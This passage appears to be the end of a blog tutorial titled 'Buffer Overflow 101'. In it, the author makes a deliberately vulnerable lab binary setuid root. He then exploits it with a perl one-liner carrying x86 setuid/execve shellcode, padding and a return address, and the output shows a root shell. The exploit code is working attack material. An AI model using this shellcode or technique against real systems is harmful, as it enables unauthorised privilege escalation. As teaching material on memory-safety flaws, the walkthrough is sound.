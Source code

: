 the code is actually doing a setuid(0) - which isn't working because the file is owned by tim and not root....

    tim@blue:~/devel/buffer_overflows_101$ sudo chown root.root vuln &amp;&amp; sudo chmod u+s vuln
    tim@blue:~/devel/buffer_overflows_101$ ./vuln `perl -e 'print "\\x6a\\x17\\x58\\x31\\xdb\\xcd\\x80\\x6a\\x0b\\x58\\x99\\x52\\x68//sh\\x68/bin\\x89\\xe3\\x52\\x53\\x89\\xe1\\xcd\\x80" . "A"x230 . "\\x88\\xf8\\xff\\xbf"'`
    before call
    argument was: jX1�̀j
                         X�Rh//shh/bin��RS��̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
    # id
    uid=0(root) gid=1001(tim) groups=110(admin),1001(tim)
    # exit
    tim@blue:~/devel/buffer_overflows_101$

And now I've got a privilege escalation sitting on my desktop - I'll leave you to play with stuff.
Feel free to ask questions/corrections here and I'll do my best to answer them. Hope you enjoyed my Buffer Overflow 101 walk though.

